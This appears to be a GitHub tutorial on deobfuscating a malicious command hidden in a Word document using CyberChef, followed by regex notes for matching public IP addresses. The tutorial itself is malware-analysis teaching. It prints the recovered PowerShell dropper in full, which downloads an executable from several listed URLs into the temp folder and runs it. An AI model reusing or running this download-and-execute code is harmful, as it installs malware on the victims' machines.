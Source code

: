 ![logo](https://raw.githubusercontent.com/adam-p/markdown-here/master/src/common/images/icon48.png)
#### In this Tutrail i will show you how to  de-obfuscate A milieous VBS Embedded in Doc File

Start : https://www.hybrid-analysis.com/sample/9a43186e72bde764614b092b55d4dfba00f528c5f0d45e6ccb56dcee8763a845?environmentId=100 

![1](https://user-images.githubusercontent.com/29158503/60865490-d0fdcc80-a22e-11e9-8114-827ce5233897.png)



#### After Downloading the sample let go to Cyberchef to analyze the Malicious cmd.exe command present on Hyperd analysis


![2](https://user-images.githubusercontent.com/29158503/60865489-d0fdcc80-a22e-11e9-8a97-e358694714ee.png)
                                               


#### Now we need to  de-obfuscate the command using cyberchef as follow :rocket:  : 
+ Using replace| find Function to clean the code from (^) 

+ We notice there are SET for a verivble called (9ojB) we select that veribale and see we can find ! 

+ By the end of line we found "For /l  %3  IN  (+1640 ,  -3 ,+2 )", that mean the attcker telling the script to start from index 1640 (Whic is the last characker in the code )  and skkiping  two ckarakter all the way up.

+ To make this readbale lets revrese the code (Despaiye the fact it start from down top up) by using revrese function in Cybershef 

+ Now we need to select first Character and skipping two Characters by using regulare experation "(.).." and also select "List Capture Gruops" 

+ Great, All you need to do now is adding Synatx highliter to make the output more clear screen shot below 

![3](https://user-images.githubusercontent.com/29158503/60870145-f2fc4c80-a238-11e9-9774-79f7cace6eff.PNG)
                                                



```javascript
powershell $BYi='rfd';$iQF='http://mahimamedia.com/YxdW87t@http://mandujano.net/NWJ6@http://www.creativeagency.biz/Sa0BVm@http://www.brgsabz.com/sq@http://biogas-bulgaria.efarmbg.com/fiDaiHg'.Split('@');$RdW=([System.IO.Path]::GetTempPath()+'\zUw.exe');$uIY =New-Object -com 'msxml2.xmlhttp';$svp = New-Object -com 'adodb.stream';foreach($PXv in $iQF){try{$uIY.open('GET',$PXv,0);$uIY.send();If ($uIY.Status -eq 200) {$svp.open();$svp.type = 1;$svp.write($uIY.responseBody);$svp.savetofile($RdW);Start-Process $RdW;break}}catch{}}      
```








# Note(Regx)!!!

1. Public Ip 
+ ^([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))(?<!127)(?<!^10)(?<!^0)\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!192\.168)(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!\.255$)$




| Reg           |                                                                        Defination    |
| ------------- |                                                                       :-------------:| 
| ^The          |                                             matches any string that starts with The  |
| end$          |                                                 matches a string that ends with end  | 
| (.)..         |              Start with first alphabet in list and skip two alphabet so on so fourth |  


:+1: 
